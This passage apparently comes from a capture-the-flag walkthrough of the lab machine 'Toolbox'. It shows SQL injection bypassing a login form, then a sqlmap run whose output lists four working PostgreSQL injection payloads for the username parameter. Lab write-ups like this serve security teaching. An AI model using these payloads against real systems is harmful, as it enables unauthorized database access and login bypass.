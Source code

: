 
Because `-- -` makes anything after a comment, this will return all users, and
hopefully let me in.

![image-20210423135419308](https://0xdfimages.gitlab.io/img/image-20210423135419308.png)

On submitting:

![image-20210423135504188](https://0xdfimages.gitlab.io/img/image-20210423135504188.png)

I’m at the admin dashboard, but it doesn’t do much.

### Enumerate DB

A login form isn’t displaying data from the DB back to the page, so it’s a
more difficult blind injection. For an easy-rated box like Toolbox, I’ll turn
to `sqlmap`. I’ll save a POST request for login from Burp to a file with
right-click, “Copy to file”. It’s important that this request not have any
injections in it, or `sqlmap` will yell.

I’ll run with `-r login.request` to give it the file to work from, `--force-
ssl` (as that’s where the site is), and `--batch` to accept the defaults at
the prompts. It finds four injections:

    
    
    oxdf@parrot$ sqlmap -r login.request --force-ssl --batch
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
        Payload: username=admin' AND (SELECT (CASE WHEN (1539=1539) THEN NULL ELSE CAST((CHR(116)||CHR(65)||CHR(89)||CHR(71)) AS NUMERIC) END)) IS NULL AND 'ITbh'='ITbh&password=admin
    
        Type: error-based
        Title: PostgreSQL AND error-based - WHERE or HAVING clause
        Payload: username=admin' AND 1461=CAST((CHR(113)||CHR(112)||CHR(113)||CHR(120)||CHR(113))||(SELECT (CASE WHEN (1461=1461) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(112)||CHR(112)||CHR(113)) AS NUMERIC) AND 'ZWWH'='ZWWH&password=admin
    
        Type: stacked queries
        Title: PostgreSQL > 8.1 stacked queries (comment)
        Payload: username=admin';SELECT PG_SLEEP(5)--&password=admin
    
        Type: time-based blind
        Title: PostgreSQL > 8.1 AND time-based blind
        Payload: username=admin' AND 4799=(SELECT 4799 FROM PG_SLEEP(5)) AND 'Cmys'='Cmys&password=admin
    ---
    [14:00:35] [INFO] the back-end DBMS is PostgreSQL
    web server operating system: Linux Debian 10 (buster)
    web application technology: Apache 2.4.38, PHP 7.3.14
    back-end DBMS: PostgreSQL
    ...[snip]...
    